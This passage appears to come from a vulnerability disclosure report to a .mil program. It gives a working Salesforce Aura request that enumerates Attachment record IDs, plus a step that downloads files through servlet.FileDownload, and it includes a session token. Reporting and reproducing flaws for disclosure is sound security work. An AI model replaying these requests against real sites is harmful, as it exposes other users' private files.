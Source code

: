 ```
X-Sfdc-Page-Scope-Id: cb3e874d-dd6f-4459-8016-91cb97c034bb
X-Sfdc-Request-Id: 1650000000ce00391b
X-Sfdc-Page-Cache: 05da72b5c160b86c
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
X-B3-Traceid: bb38cda3039f713b
X-B3-Spanid: 2e48fc5f161b8aa4
X-B3-Sampled: 0
Content-Length: 1118
Origin: https://███.mil
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

message={"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController/ACTION$getItems","callingDescriptor":"UNKNOWN","params":{"entityNameOrId":"Attachment","layoutType":"FULL","pageSize":2000,"currentPage":0,"useTimeout":false,"getCount":false,"enableRowActions":false}}]}&aura.context=%7B%22mode%22%3A%22PROD%22%2C%22fwuid%22%3A%22eUNJbjV5czdoejBvRlA5OHpDU1dPd1pMVExBQkpJSlVFU29Ba3lmcUNLWlE5LjMyMC4y%22%2C%22app%22%3A%22siteforce%3AcommunityApp%22%2C%22loaded%22%3A%7B%22APPLICATION%40markup%3A%2F%2Fsiteforce%3AcommunityApp%22%3A%221184_AgcTXn_6dZSShHXZ2PZsug%22%7D%2C%22dn%22%3A%5B%5D%2C%22globals%22%3A%7B%7D%2C%22uad%22%3Atrue%7D&aura.pageURI=%2FPortal████████%2Fs%2F&aura.token=eyJub25jZSI6Ilh5VUlXTVhkNmlMLVVVSGE4UHgtNVpYcXNHTExpcHh1VHpsdGY0ZUxMX0lcdTAwM2QiLCJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6IntcInRcIjpcIjAwRFJ3MDAwMDAwMDAwMVwiLFwidlwiOlwiMDJHUncwMDAwMDAwMDNGXCIsXCJhXCI6XCJjYWltYW5zaWduZXJcIn0iLCJjcml0IjpbImlhdCJdLCJpYXQiOjE3MzczOTAwMTE5MTEsImV4cCI6MH0%3D..WK5LFyXjvujGvkxNWDVZyUQQsRhVRCcTD_hkWdulEWA%3D
```
████████

7. Insert the ID into URL as below (same session) and verify that file is accessible from your account:

https://█████.mil/Portal██████████/servlet/servlet.FileDownload?file=00PRw000000MbSLMA0


# Notes

To ease testing on your side, I am also attaching a list of Attachment Id's that I generated using the method mentioned in the beginning of the report.

Hope you find this report helpful - look forward to your feedback.

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
